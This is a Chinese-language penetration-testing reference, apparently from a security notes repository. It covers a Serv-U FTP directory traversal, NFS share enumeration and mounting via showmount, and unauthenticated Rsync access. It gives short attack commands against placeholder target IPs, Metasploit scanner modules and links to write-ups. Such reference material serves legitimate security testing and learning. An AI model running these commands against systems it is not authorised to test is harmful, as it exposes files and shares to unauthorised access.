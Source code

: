 **Serv-U FTP Server 目录遍历漏洞**
- 文章
    - [Serv-U FTP Server 0day漏洞分析报告](http://safe.it168.com/a2011/1213/1287/000001287577.shtml)

- 示例
    ```bash
    ls ../windwos
        550 .....

    ls ..:/windows
        150 ....
        ...
        ...
    ```

## NFS

**文章**
- [针对NFS的渗透测试](https://www.freebuf.com/articles/network/159468.html)

**CVE-1999-0554 目标主机 showmount -e 信息泄露**
- 示例
    ```bash
    showmount -e <目标ip>
    mount -t nfs <目标ip>:/opt/applications/xxx_static_data  /mnt
    ```

- MSF 模块
    ```bash
    use auxiliary/scanner/nfs/nfsmount
    set rhosts <目标ip>
    run
    ```

## Rsync

**未授权访问**
- 文章
    - [rsync的几则tips(渗透技巧)](http://www.91ri.org/11093.html)
    - [配置漏洞之Rsync匿名访问](https://uknowsec.cn/posts/skill/%E9%85%8D%E7%BD%AE%E6%BC%8F%E6%B4%9E%E4%B9%8BRsync%E5%8C%BF%E5%90%8D%E8%AE%BF%E9%97%AE.html)

- 利用

    ```bash
    rsync <目标IP>::
    ```
    - [rsync 未授权访问漏洞](https://github.com/vulhub/vulhub/tree/master/rsync/common)

- MSF 模块
    ```bash
    use auxiliary/scanner/rsync/modules_list
    set rhosts <目标ip>
    run
    ```
